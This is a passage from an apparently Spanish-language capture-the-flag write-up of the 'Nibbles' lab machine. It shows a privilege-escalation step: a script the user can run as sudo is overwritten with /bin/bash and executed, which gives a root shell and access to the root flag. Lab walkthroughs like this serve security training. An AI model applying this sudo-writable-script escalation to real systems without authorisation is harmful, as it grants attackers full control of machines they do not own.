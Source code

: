 Tenemos permisos de lectura, escritura y ejecución, por lo tanto vamos a cambiar el contenido de dicho script:

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh 
#!/bin/bash

/bin/bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
root@Nibbles:/home/nibbler/personal/stuff#
```

Ya somos el usuario **root** y podemos visualizar al flag (root.txt).
